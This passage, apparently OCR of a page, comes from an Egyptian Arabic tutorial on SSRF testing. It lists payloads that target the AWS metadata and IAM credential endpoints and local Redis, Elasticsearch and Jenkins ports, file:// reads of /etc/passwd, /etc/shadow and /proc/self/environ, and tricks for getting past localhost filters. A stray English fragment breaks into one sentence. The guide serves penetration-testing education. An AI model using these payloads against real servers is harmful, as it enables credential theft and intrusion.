 

#### **3. اختبار الوصول إلى خدمات داخلية حساسة (مثل Cloud Metadata)**
- **إيه اللي هتعمله؟** جرب استهداف خدمات داخلية حساسة زي خدمات Metadata في بيئات السحابة (مثل AWS) أو قواعد بيانات داخلية.
- **إزاي تعملها؟**
  - أدخل رابط يستهدف خدمة حساسة زي AWS EC2 Metadata (`169.254.169.254`).
  - لو الموقع أظهر بيانات حساسة (مثل مفاتيح وصول، معلومات الخادم، أو بيانات IAM)، يبقى الثغرة خطيرة.
  - جرب خدمات أخرى زي Redis (`6379`)، Elasticsearch (`9200`)، أو قواعد بيانات داخلية.
- **مثال**: جرب: `example.com/fetch?url=http://169.254.169.254/latest/meta-data/`.
- **ملخص الأوام/المدخلات**:
  - `http://169.254.169.254/latest/meta-data/` (AWS EC2 Metadata).
  - `http://169.254.169.254/latest/meta-data/iam/security-credentials/` (بيانات IAM في AWS).
  - `http://127.0.0.1:6379` (اختبار Redis).
  - `http://127.0.0.1:9200` (اختبار Elasticsearch).
  - `http://127.0.0.1:8080` (اختبار خدمات ويب داخلية مثل Jenkins).

---

#### **4. اختبار قراءة الملفات المحلية (File Scheme)**
- **إيه اللي هتعمله؟** جرب استخدام بروتوكول `file://` عشان تقرأ ملفات على الخادم، زي ملفات إعدادات أو ملفات حساسة.
- **إزاي تعملها؟**
  - أدخل رابط يستخدم `file://` للوصول إلى ملفات زي `/etc/passwd` أو `/etc/hosts`.
  - لو الموقع أظهر محتوى الملف أو أشار لخطأ يدل على محاولة قراءة، يبقى فيه ثغرة.
  - جرب ملفات أخرى زي سجلات الويب (`/var/log/apache2/access.log`) أوstrategies: 
    - Use tools like Burp Suite or OWASP ZAP to intercept and modify HTTP requests/responses.
    - Test different file paths like `/proc/self/environ` or `/etc/shadow` if `/etc/passwd` doesn’t work.
- **مثال**: جرب: `example.com/fetch?url=file:///etc/passwd`.
- **ملخص الأوامر/المدخلات**:
  - `file:///etc/passwd` (قراءة ملف المستخدمين).
  - `file://\/\/etc/passwd` (صيغة بديلة).
  - `file:///etc/hosts` (قراءة ملف الشبكة).
  - `file:///proc/self/environ` (قراءة متغيرات البيئة).
  - `file:///var/log/apache2/access.log` (قراءة سجل الويب).
  - `file:///etc/shadow` (محاولة قراءة ملف كلمات السر).

---

#### **5. اختبار تجاوز الفلاتر (Bypass Filters)**
- **إيه اللي هتعمله؟** لو الموقع بيمنع عناوين زي `localhost` أو `127.0.0.1`، جرب حيل عشان تتخطى الفلاتر باستخدام صيغ بديلة.
- **إزاي تعملها؟**
  - جرب صيغ مختلفة لعنوان `localhost` أو `127.0.0.1`:
    - **IPv6 Notation**:
      - استخدم `[::]` أو `[0000::1]` (عناوين IPv6 للوكال هوست).
      - استخدم `[::ffff:127.0.0.1]` (تضمين IPv4 في IPv6).
    - **CIDR Range**:
      - استخدم عناوين في نطاق `127.0.0.0/8` زي `127.0.0.2` أو `127.127.127.127`.
    - **Rare Addresses**:
      - استخدم صيغ مختصرة زي `127.1` أو `0`.
    - **Encoded IPs**:
      - حول IP لصيغة عشرية (مثل `2130706433` = `127.0.0.1`).
      - استخدم صيغة ثمانية (مثل `0177.0.0.1` = `127.0.0.1`).
    - **URL Encoding**:
      - جرب ترميز الحروف (مثل `%61` بدل `a` في `admin`).
    - **Enclosed Alphanumeric**:
      - استخدم حروف مشفرة زي `ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ` بدل `example.com`.
    - **Domain Redirects**:
      - استخدم نطاقات زي `127.0.0.1.nip.io` أو `localtest.me` اللي بتوجه لـ `127.0.0.1` أو `::1`.
  - لو أي حيلة نجحت، يبقى الفلاتر ضعيفة.
- **مثال**: جرب: `example.com/fetch?url=http://127.0.0.1.nip.io`.
- **ملخص الأوامر/المدخلات**: